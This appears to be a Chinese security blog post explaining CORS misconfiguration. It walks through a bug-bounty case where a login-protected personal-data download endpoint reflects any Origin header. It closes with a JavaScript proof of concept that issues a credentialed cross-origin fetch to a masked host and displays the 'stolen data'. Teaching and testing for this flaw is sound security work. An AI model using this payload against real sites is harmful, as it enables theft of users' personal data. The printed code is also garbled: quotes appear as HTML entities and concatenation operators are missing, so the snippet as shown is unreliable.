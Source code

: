 伟大的前端提供了两种方式  
  
第一种就是标准的跨域请求机制，也就是我们本文中重点介绍的CORS  
  
第二种是JSONP跨域请求，当然这里也存在漏洞，我们下期展开讲讲  
  
本来呢，前端是好心提供的跨域请求机制，但是为什么会出现漏洞呢，坏就坏在了配置上  
  
浏览器直接发出CORS请求，接下来浏览器会自动在请求的header中加上Origin字段，告诉服务器这个请求来自哪个源。  

```
Origin:
```

  
服务器端收到请求后，会对比这个字段，如果这个源在服务器端的许可范围内，服务器的响应头会加上以下字段  

```
Access-Control-Allow-Origin：(这里的值为Origin的值)
Access-Control-Allow-Credentials:true
```

  
如下图所示  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jO6Ng1KzpYt68DMia0rXkR00GE4ibp3cHG2bc4zbL7sbMcwIXQT9FAKAia879VZRqEYjZCFMwo4KmOg/640?wx_fmt=png&from=appmsg "")  
  
如果说服务端配置了   
Access-Control-Allow-Origin  
 响应头，并且浏览器认可该值，跨域就被允许了，此时漏洞也产生了  
  
讲完了原理，我们再来总结一下  
  
本来呢，CORS是浏览器用来允许前端 JS 向不同域请求资源  
的一个安全机制。默认情况下，浏览器出于同源策略  
的限制，不允许 JavaScript 跨域读取接口数据。但是如果服务端错误地配置了跨域规则，那么就会导致一些很危险的事情产生  
  
0x03 实战案例  
  
好了，啰嗦了半天，直接上某SRC实战案例看一下  
  
该接口是用户登录之后，下载个人信息文件的一个接口，在请求包中发现了Origin字段，通过修改该字段查看服务器回显，发现服务端对   
Origin  
 头没有验证，直接反射原样回显：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jO6Ng1KzpYt68DMia0rXkR0HUib638lIhts69ich4Wey9BkRHrtwxJXRRGibAxAHc6Et84J5HiaQhy1ug/640?wx_fmt=png&from=appmsg "")  
  
然后构造好攻击的poc  

```
(async () => {
  try {
    const res = await fetch(&#34;http://xxxx/download&#34;, {
      method: &#34;POST&#34;,
      credentials: &#34;include&#34;,
      headers: { &#34;Content-Type&#34;: &#34;application/json&#34; },
      body: &#34;{}&#34;
    });
    if (!res.ok) {
      alert(&#34;请求失败，状态码：&#34;   res.status);
      return;
    }
    const data = await res.json();
    alert(&#34;窃取的数据:\n&#34;   JSON.stringify(data, null, 2));
  } catch (error) {
    alert(&#34;请求异常：&#34;   error.message);
  }
})();
```
